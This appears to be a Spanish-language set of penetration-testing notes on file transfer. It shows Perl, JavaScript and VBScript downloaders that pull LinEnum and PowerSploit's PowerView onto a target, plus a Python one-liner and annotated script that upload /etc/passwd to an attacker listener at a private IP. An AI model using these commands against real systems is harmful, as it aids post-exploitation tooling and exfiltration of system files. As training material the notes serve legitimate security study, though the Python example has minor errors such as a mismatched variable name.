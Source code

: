 **Perl**
```
perl -e 'use LWP::Simple;getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh","LinEnum.sh");'
```
**JavaScript (Windows)**
```JavaScript
#Creando un archivo llamado wget.js
var WinHttpReq=new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET",WScript.Arguments(0),false);
WinHttpReq.Send();
BinStream=new ActiveXObject("ADODB.Stream");
BinStream.Type=1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));

#Ejecutando wget.js
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
**VBScript (Windows)**
```VBScript
#Creando archivo wget.vbs
dim xHttp:Set xHttp=createobject("Microsoft.XMLHTTP")
dim bStrm:Set bStrm=createobject("Adodb.Stream")
xHttp.Open "GET",WScript.Arguments.Item(0),False
xHttp.Send
with bStrm
    .type=1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1),2
end with

#Ejecutando script
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

**Operaciones de carga usando Python3**
> Apovechando que desde python se pueden usar todos los metodos http
```
python3 -m uploadserver
python3 -c 'import requests;requests.post("http://<IPVictima>192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'

#Funcionamiento

  # To use the requests function, we need to import the module first.
import requests 

  # Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

  # Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

  # Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```
____________________________________________________________

